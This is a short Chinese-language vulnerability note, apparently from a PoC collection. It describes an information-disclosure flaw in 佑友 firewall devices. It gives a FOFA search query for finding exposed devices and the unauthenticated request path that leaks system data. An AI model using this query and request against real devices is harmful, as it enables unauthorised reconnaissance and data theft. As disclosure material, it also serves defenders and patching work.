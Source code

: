 # 佑友防火墙存在信息泄露漏洞

# 一、漏洞简介
佑友防火墙+路由，保障您的网络更安全更稳定。弥补传统路由器因内外人数增加带来的网络延迟和不稳定问题；防火墙模块具备了防黑功能，防止ARP等病毒骚扰；佑友防火墙网关同时还配备了上网行为管理模块，可以合理有效控制员工上网行为，大大降低了员工上网中病毒的概率，同时高效使用公司带宽，不会造成网络阻塞等状况。佑友防火墙系统存在敏感信息泄露漏洞

# 二、影响版本
+ 佑友防火墙

# 三、资产测绘
```plain
fofa：title="佑友防火墙"
```

![1716105993266-59e9b128-8a93-41a8-b677-00d8945bcb20.png](./img/tjcmVWMdveMKzpDP/1716105993266-59e9b128-8a93-41a8-b677-00d8945bcb20-272803.png)

# 四、漏洞复现
```plain
/index.php?c=index&a=ajax_getSystemResource
```

![1716106363889-c8322d3e-f2a2-431a-95ac-5c624b224d66.png](./img/tjcmVWMdveMKzpDP/1716106363889-c8322d3e-f2a2-431a-95ac-5c624b224d66-034201.png)



> 更新: 2024-05-23 12:38:07  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gkhyz7gekz2ws3s3>